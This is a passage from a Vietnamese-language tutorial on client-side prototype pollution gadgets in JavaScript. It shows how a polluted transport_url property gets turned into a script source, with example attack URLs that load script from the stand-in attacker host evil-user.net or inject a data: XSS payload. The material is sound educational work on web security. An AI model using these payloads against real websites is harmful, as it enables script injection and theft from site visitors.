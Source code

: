 Một thuộc tính không được gọi là `gadget` nếu nó được xác định trực tiếp trên chính đối tượng đó. Trong trường hợp này, phiên bản thuộc tính riêng của đối tượng được ưu tiên hơn bất kỳ phiên bản độc hại nào mà bạn có thể thêm vào nguyên mẫu. Các trang web tốt thường đặt nguyên mẫu của Object thành `null`. 

Điều này đảm bảo rằng đối tượng hoàn toàn không kế thừa bất kỳ thuộc tính nào.
{: .notice--danger}

### Ví dụ: Gadget ô nhiễm nguyên mẫu
Có nhiều thư viện Javascript chấp nhận một đối tượng mà nhà phát triển có thể sử dụng để đặt các tùy chọn cấu hình khác nhau. Mã thư viện kiểm tra xem nhà phát triển có thêm một số thuộc tính nhất định vào đối tượng này một cách rõ ràng hay không và nếu có, điều chỉnh cấu hình cho phù hợp. Nếu không có thuộc tính đại diện cho một tùy chọn cụ thể, thì một tùy chọn mặc định được xác định trước thường được sử dụng để thay thế. Một ví dụ đơn giản hóa có thể trông giống nhưu sau:
```yaml
let transport_url = config.transport_url || defaults.transport_url;
```

Bây giờ hãy tưởng tượng code thư viện sử dụng dòng code `transport_url` để thêm tham chiếu tập lệnh vào trang.
```yaml
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

Nếu các nhà phát triển trang web, chưa đặt thuộc tính `transport_url` cho đối tượng `config` của họ, thì đây là một `gadget tiềm năng`. 

Trong trường hợp, kẻ tấn công có thể làm ô nhiễm `Object.prototype` bằng thuộc tính `transport_url` của riêng họ. Điều này sẽ được kế thừa bởi đối tượng `config` và được đặt làm `src` cho script này thành domain do kẻ tấn công chọn.
{: .notice--info}

Ví dụ: Nếu nguyên mẫu có thể bị ô nhiễm thông qua tham số truy vấn, thì kẻ tấn công chỉ cần dụ nạn nhân truy cập vào một URL được tạo đặc biệt để khiến trình duyệt của họ import tệp Javascript độc hại từ miền do kẻ tấn công kiểm soát
```yaml
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```

Ngoài ra, bằng cách cung cấp một từ khóa `data:` trong url, kẻ tấn công cũng có thể nhúng trực tiếp một payload XSS trong chuỗi truy vấn sau:
```yaml
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```

Lưu ý: `//` dùng để comment bypass phần còn lại của chuỗi.
{: .notice--danger}

# Lỗ hổng prototype pollution client
Trong phần này, ta tìm hiểu cách tìm các lỗ hổng gây ô nhiễm nguyên mẫu phía máy khác trong tự nhiên. Để củng cố hiểu biết của bạn về cách thức hoạt động của lỗ hổng bảo mật này. 
Chúng ta sẽ thực hiện thủ công và áp dụng của DOM Invader để tự động hóa phần lớn quy trình.
